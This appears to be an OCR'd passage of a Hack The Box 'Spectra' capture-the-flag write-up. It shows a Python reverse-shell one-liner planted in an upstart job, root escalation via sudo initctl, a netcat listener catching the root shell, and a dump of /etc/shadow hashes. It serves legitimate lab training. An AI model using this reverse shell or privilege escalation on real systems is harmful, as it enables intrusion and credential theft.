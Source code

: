   katie@spectra ~ $ ./pwn.c
    -bash: ./pwn.c: Permission denied

  katie@spectra ~ $ bash pwn.c
    pwn.c: warning: pwn.c: warning: script from noexec mount; see https://chromium.googlesource.com/chromiumos/docs/+/master/security/noexec_shell_scripts.md
    pwn.c: line 4: syntax error near unexpected token `('
    pwn.c: line 4: `int main()'


2. Because of noexec we can trigger the script using normal './', and it seems like the c-syntax isn't working. Instead we can
try to directly throw different reverse one-liners into the startup script /etc/init/test.conf.

  katie@spectra ~ $ cat /etc/init/test.conf
    description "Root Reverse PrivEsc"
    author      "PlayerThree"

    start on filesystem or runlevel [2345]
    stop on shutdown

    script

    	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",4488));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    end script

  katie@spectra ~ $ sudo /sbin/initctl start test
    test start/running, process 41762

  [root:/git/htb/spectra]# nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.12] from (UNKNOWN) [10.10.10.229] 42060
    # id
      uid=0(root) gid=0(root) groups=0(root)
    # cat /root/root.txt
      d44519713b889d5e1f9e536d0c6df2fc

    # cat /etc/shadow
      root:$1$lchcuPsn$BgyskySIi0hFMF4/v7S53.:18661::::::
      chronos:*:::::::
      nginx:!:18660:0:99999:7:::
      katie:$1$IL2kvPV1$mYHaoPio5/jIZ.JL/RLr2/:18662:0:99999:7:::


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Startup script exploit, /etc/init:
  https://recipeforroot.com/exploiting-startup-scripts/
  https://www.doyler.net/security-not-included/exploiting-init-d-fun-profit

